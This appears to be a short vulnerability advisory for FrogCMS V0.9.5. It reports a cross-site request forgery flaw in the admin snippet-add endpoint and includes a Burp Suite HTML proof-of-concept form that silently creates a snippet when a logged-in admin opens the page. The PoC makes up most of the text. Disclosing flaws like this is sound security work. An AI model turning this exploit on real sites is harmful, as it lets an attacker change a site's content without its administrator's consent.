 
target:https://github.com/philippe/FrogCMS
version: V0.9.5

FrogCMS V0.9.5 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/?/snippet/add

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/?/snippet/add" method="POST">
      <input type="hidden" name="/snippet/add" value="" />
<input type="hidden" name="snippet%5Bname%5D" value="cs1" />
<input type="hidden" name="snippet%5Bfilter_id%5D" value="" />
<input type="hidden" name="snippet%5Bcontent%5D" value="" />
<input type="hidden" name="commit" value="Save" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

